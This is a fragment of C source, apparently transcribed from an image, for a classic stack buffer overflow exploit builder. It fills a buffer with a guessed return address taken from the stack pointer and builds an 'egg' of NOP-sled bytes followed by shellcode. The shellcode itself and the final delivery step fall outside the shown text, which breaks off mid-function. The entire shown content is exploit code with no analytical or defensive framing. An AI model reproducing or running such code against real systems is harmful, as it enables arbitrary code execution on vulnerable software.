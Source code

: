 ```
void usage(void);

void main(int argc, char *argv[]) {
    char *ptr, *bof, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

    while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
        switch (c) {
            case 'a':
                align = atoi(optarg);
                break;
            case 'b':
                bsize = atoi(optarg);
                break;
            case 'e':
                eggsize = atoi(optarg);
                break;
            case 'o':
                offset = atoi(optarg);
                break;
            case '?':
                usage();
                exit(0);
        }

    if (strlen(shellcode) > eggsize) {
        printf("Shellcode is larger the the egg.\n");
        exit(0);
    }

    if (!(bof = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
        bsize, eggsize, align);
    printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

    addr_ptr = (long *) bof;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    ptr = egg;
    for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
        m = (n + align) % NOP_SIZE;
        *(ptr++) = nop[m];
    }

    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    bof[bsize - 1] = '\0';
    egg[eggsize - 1] = '\0';

```